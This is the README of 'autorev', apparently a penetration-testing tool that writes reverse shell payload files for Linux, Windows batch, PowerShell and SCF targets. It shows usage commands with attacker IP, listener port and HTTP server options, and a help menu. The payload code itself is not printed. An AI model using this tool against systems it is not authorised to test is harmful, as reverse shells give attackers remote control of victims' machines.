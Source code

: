 ![alt text](https://github.com/root-tanishq/autorev.sh/raw/main/images/autorev_banner.png) 

#                              Autorev.sh

The Python Script will generate a (.) extension file with reverse shell codes then you can execute the script on the target [support windows and linux both]

#                              Usage

## Generating linux

```
python3 <path to autorev>/autorev.py -i 192.168.1.1 -p 443 -s 8000
```

![alt text](https://github.com/root-tanishq/autorev.sh/raw/main/images/autorev_lin.png)  

## Generating Windows bat

```
python3 <path to autorev>/autorev.py -i 192.168.1.1 -p 443 -s 8000 -f winc
```

![alt text](https://github.com/root-tanishq/autorev.sh/raw/main/images/autorev_winc.png)  

## Generating Windows ps1

```
python3 <path to autorev>/autorev.py -i 192.168.1.1 -p 443 -s 8000 -f winp
```

![alt text](https://github.com/root-tanishq/autorev.sh/raw/main/images/autorev_winp.png)

### Generating SCF

```
python3 autorev.sh -i <your-ip> -p <your-port> -o <scf-file-name> -f scf
```

![alt text](https://github.com/root-tanishq/autorev.sh/raw/main/images/autorev_scf.png) > All Usage commands will be also generated and print according to the given switches

##                           HELP Menu

```
-h,        --help   HELP   show this help message and exit
-i IPADDR, --ipaddr IPADDR LHOST Attacker IP address
-p PORT,   --port   PORT   LPORT Port to get reverse shell on [Default 9001]
-o OUT,    --out    OUT    Output File Name [Excluding (.)extension Extension][OPTIONAL]
-f FORMAT, --format FORMAT Define Format for generator [lin | win[c/p](c = cmd | p = powershell) | scf][Default=lin]
-s SERVER, --server SERVER Port to use for generating commands (http://[your-ip]:[PORT]) (Default 80)
```
